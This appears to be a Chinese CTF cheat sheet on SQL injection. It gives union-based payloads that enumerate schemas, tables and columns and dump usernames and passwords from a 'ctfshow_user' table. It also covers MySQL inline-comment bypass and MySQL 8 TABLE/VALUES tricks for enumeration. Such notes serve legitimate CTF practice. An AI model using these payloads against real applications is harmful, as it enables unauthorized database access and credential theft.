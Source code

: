 **本人根据比赛和练习的积累（大部分直接复制的）**

## 最简单的方法

```tex
#查所有数据库，这个容易忽略
SELECT GROUP_CONCAT(schema_name) FROM INFORMATION_SCHEMA.schemata
# 查数据库
payload="-1'union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+"
# 查列名
payload="-1'union select 1,2,group_concat(column_name) from information_schema.columns where table_name='ctfshow_user' --+"
# 查flag
payload="-1'union select id,username,password from ctfshow_user --+"
```

## mysql弱比较

## 内联注释绕过

在mysq中的三种注释方法：`--`和`#`（单行注释）和`/* */`（多行注释）。如果在`/*`后加惊叹号`!`意为`/* */`里的语句将被执行。
在mysql中`/*! ....*/`不是注释，mysql为了保持兼容，它把一些特有的仅在mysql上用的语句放在`/*!....*/`中，这样这些语句如果在其他数据库中是不会被执行，但在mysql中它会执行
如下语句`/*!50001 select * from test */;`这里的50001表示假如 数据库是5.00.01及以上版本，该语句才会被执行

## mysql8新特性

`table [表名]`显示表内容

```sql
table users limit 0,1;
```

与SELECT的区别：
1.TABLE始终显示表的所有列
2.TABLE不允许对行进行任意过滤，即TABLE 不支持任何WHERE子句

### 1.判断列数

```sql
TABLE users union VALUES ROW(1,2,3);
```

### 2.使用values判断回显位

```sql
select * from users where id=-1 union values row(1,2,3);
```

### 3.列出所有数据库名

```sql
table information_schema.schemata;
```
